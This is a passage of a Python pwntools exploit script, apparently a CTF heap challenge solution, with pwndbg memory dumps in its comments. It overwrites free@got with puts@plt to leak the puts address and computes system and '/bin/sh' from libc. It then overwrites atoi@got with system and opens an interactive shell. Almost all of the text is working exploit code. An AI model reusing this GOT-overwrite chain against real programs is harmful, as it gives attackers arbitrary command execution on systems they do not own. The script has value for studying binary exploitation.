 ```python
# 0x602148:   0x0000000000602020  0x0000000000602088 <== also bss_heap[1] and bss_heap[2] was changed, and point to puts@got,atoi@got
# 0x602158:   0x0000000000000000  0x0000000000000000
# 0x602168:   0x0000000000000000  0x0000000000000000
# 0x602178:   0x0000000000000000  0x0000000000000000
# 0x602188:   0x0000000000000000  0x0000000000000000
# 0x602198:   0x0000000000000000  0x0000000000000000
# 0x6021a8:   0x0000000000000000  0x0000000000000000

# edit free@got to puts@plt
payload = p64(elf.plt['puts'])
read(payload,len(payload),0)
# debug()

# pwndbg> x/16g 0x0000000000602018
# 0x602018 <free@got.plt>:    0x0000000000400760  0x00007f1ece149690 <== 0x0000000000400760 was point to puts@plt
# 0x602028 <fread@got.plt>:   0x00007f1ece1481a0  0x0000000000400786
# 0x602038 <__stack_chk_fail@got.plt>:    0x0000000000400796  0x00007f1ece12f800
# 0x602048 <alarm@got.plt>:   0x00007f1ece1a6200  0x00007f1ece0fa740
# 0x602058 <fgets@got.plt>:   0x00007f1ece147ad0  0x00007f1ece110eb0
# 0x602068 <__gmon_start__@got.plt>:  0x00000000004007f6  0x00007f1ece15e130
# 0x602078 <fflush@got.plt>:  0x00007f1ece1477a0  0x00007f1ece110ea0
# 0x602088 <atoi@got.plt>:    0x00007f1ece110e80  0x0000000000000000

 # free bss_heap[1] to leak puts addr
free(1)
# function free here will call the reall free in os,
# but the free@got was rewrite to point to put@plt,
# so it wiil call the puts and use index 1's content which is puts@got as a parameter of puts
p.recvuntil('OK\n')
puts_addr = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))
log.success('puts_addr = %#x',puts_addr)

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh = libc_base + libc.dump('str_bin_sh')
log.info('system_addr = %#x, binsh = %#x'%(system_addr, binsh))

# modify atoi@got to system addr
payload = p64(system_addr)
read(payload, len(payload), 2)
# debug()

# pwndbg> x/16g 0x0000000000602088
# 0x602088 <atoi@got.plt>:    0x00007fe7dfab2390  0x0000000000000000 <== 0x00007fe7dfab2390 was point to the reall address of system
# 0x602098:   0x0000000000000000  0x0000000000000000
# 0x6020a8:   0x0000000000000000  0x0000000000000000
# 0x6020b8:   0x0000000000000000  0x00007fe7dfe32620
# 0x6020c8:   0x0000000000000000  0x00007fe7dfe318e0
# 0x6020d8:   0x0000000000000000  0x0000000000000000
# 0x6020e8:   0x0000000000000000  0x0000000000000000
# 0x6020f8:   0x0000000000000000  0x0000000000000003

p.send(p64(binsh))
# Previous step, atoi@got was rewrite to point to system,
# from the program, when finish some function(ex.read,free,malloc,etc),
# it will call atoi to transfer our input to get corret option,
# but here we rewrite the atoi,
# so it will call system and use our input which is p64(binsh) as a parameter of system
p.interactive()
```